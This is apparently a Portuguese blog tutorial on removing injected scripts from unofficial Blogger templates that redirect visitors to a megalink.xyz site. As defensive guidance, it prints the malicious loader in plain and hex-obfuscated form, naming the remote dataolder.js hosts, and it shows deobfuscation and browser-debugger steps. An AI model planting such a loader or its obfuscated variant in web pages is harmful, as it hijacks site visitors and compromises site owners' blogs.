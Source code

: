 ```yaml
---
title: Blogger redirecionando para o megalink.xyz
date: 2023-07-02
author: M4rQu1Nh0S
tags: [blogger, redirecionando, sozinho, megalink.xyz, automaticamente]
subtitle: Saiba como resolver esse redirecionamento indesejado
category: [Dicas e tutoriais, Blogger]
comments: true
#cover-img: /assets/img/path.jpg
thumbnail-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
share-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
layout: post
---
```


<p align='center'><img alt='Blogger logo' src="https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png"/></p>
Um problema que pode acontecer ao utilizar temas não oficiais do blogger, alguns temas possuem códigos que ocasionalmente faz com que as visitas no seu blog sejam automaticamente redirecionadas para um outro site. Tal problema que comecei a ter recentemente em um template do blogger que já vinha utilizando a muito tempo atrás.

Enfim, indo direto ao ponto, no meu caso o problema foi causado por 2 scripts que estavam no html do blog

	//commentid.com/dataolder.js

e

	//blogpager.com/dataolder.js

Na grande maioria das vezes, com esses dois scripts, seu blog é redirecionado para o site https:// **link.megalink.xyz**]

Portanto basta editar o código html do blogger e remover todas as linhas que contem esse **dataolder.js**

**Conteúdo**

1. [Pode acontecer desse script estar “disfarçado” no html](#pode-acontecer-desse-script-estar-disfarçado-no-html)
2. [“DesOfuscando” um código](#desofuscando-um-código)
3. [Como encontrar o script no html do blogger](#como-encontrar-o-script-no-html-do-blogger)
4. [Usando o debugger do browser para diagnóstico](#usando-o-debugger-do-browser-para-diagnóstico)
5. [Observações sobre o problema](#observações-sobre-o-problema)

## Pode acontecer desse script estar “disfarçado” no html
Existe uma espécie de codificação em linguagens de programação que “disfarçam” que podemos chamar de **ofuscador**.

O Ofuscador faz com que um código como esse:

```
<script type='text/javascript'>
_wau.push(["small", "00wy9zw057rt", "pd4"]);
(function () {
  var rahja = document.createElement("script");
  rahja.async = true;
  rahja.src = "//blogpager.com/dataolder.js";
  document.getElementsByTagName("head")[0].appendChild(rahja);
}());
</script>
```

Após ofuscado, o código fica assim:

```
<script type='text/javascript'>
var _0x603d=["\x73\x6D\x61\x6C\x6C","\x30\x30\x77\x79\x39\x7A\x77\x30\x35\x37\x72\x74","\x70\x64\x34","\x70\x75\x73\x68","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x61\x73\x79\x6E\x63","\x73\x72\x63","\x2F\x2F\x62\x6C\x6F\x67\x70\x61\x67\x65\x72\x2E\x63\x6F\x6D\x2F\x64\x61\x74\x61\x6F\x6C\x64\x65\x72\x2E\x6A\x73","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x68\x65\x61\x64","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65"];var _wau=_wau|| [];_wau[_0x603d[3]]([_0x603d[0],_0x603d[1],_0x603d[2]]);(function(){var _0xcefcx2=document[_0x603d[5]](_0x603d[4]);_0xcefcx2[_0x603d[6]]= true;_0xcefcx2[_0x603d[7]]= _0x603d[8];document[_0x603d[11]](_0x603d[10])[0][_0x603d[9]](_0xcefcx2)})()
</script>
```

Uma vez que o código esteja ofuscado, você não vai conseguir encontrar o script e daí não conseguirá acabar com a fonte dos redirecionamentos.

## “DesOfuscando” um código

Felizmente existem ferramentas que ajudam a desofuscar, pelo menos parcialmente, um código que está ofuscado.

Vou recomendar alguns exemplos abaixo:

-   [**https://www.seosniffer.com/javascript-deobfuscator**](https://www.seosniffer.com/javascript-deobfuscator)
-   [https://deo.sigr.io/](https://deo.sigr.io/)
-   [https://www.dcode.fr/javascript-unobfuscator](https://www.dcode.fr/javascript-unobfuscator)
-   [https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii](https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii)
    (para traduzir alguns caracteres xml para html e daí desofuscar)

## Como encontrar o script no html do blogger
Agora que já expliquei como identificar um código ofuscado e também ja falei que o script que faz os redirecionamentos (dataolder.js), basta editar o html do blogger.

Abra o painel do blogger e vá nas opções de editar o html, e então use o Ctrl + F e procure por:

	<script type='text/javascript'>

No meio dos resultados você vai encontrar alguns códigos ofuscados, basta pega-los e desofusca-los e observar se tem algo no meio desse código alguma função de redirecionamento.

Ao encontrar basta remover, mas atenção, nem todo código ofuscado vai ter um script de redirecionamento! Alguns autores ofuscam o código para proteger o seu tema de plágio e por isso alguns códigos ofuscados podem apenas conter funções especificas do tema, como animações, estilos de fontes e cores, etc.

## Usando o debugger do browser para diagnóstico.
Todo browser ou a maioria tem as ferramentas de desenvolvedor, no caso do Chrome ele aparece ao pressionar **F12**.

Dá pra usar essa ferramenta para ajudar a encontrar a fonte dos redirecionamentos que está acontecendo no seu blogger.

Basta apertar F12 e seguir os procedimentos:

- Habilitar a visualização mobile
- Na opção **Network**, marcar as opções **Preserve Log** e **Block Requests**
- Na lista **Name** vai haver várias solicitações, ao clicar em uma da lista, observe a guia **Initiator**, ela informa em qual parte do site saiu a solicitação, que no caso é de redirecionamento.

<p align='center'><img alt='Screenshot mostrando os procedimentos em ordem numerica' src="https://cdn-images-1.medium.com/max/800/1*vK9hdmPcOOm8Z-3bnHtzbA.png"/></p>

## Observações sobre o problema
Curiosamente esse tipo de problema acontece principalmente quando o blog é aberto por um browser mobile ou em modo mobile, em modo computador o redirecionamento não acontece todas as vezes.

Pelo visto os scripts de redirecionamento foram programas para atuarem com mais tendencia em celulares, por tanto quando for investigar as fontes do redirecionamento que está acontecendo no seu blog, experimente faze-lo com o blog aberto em modo mobile.

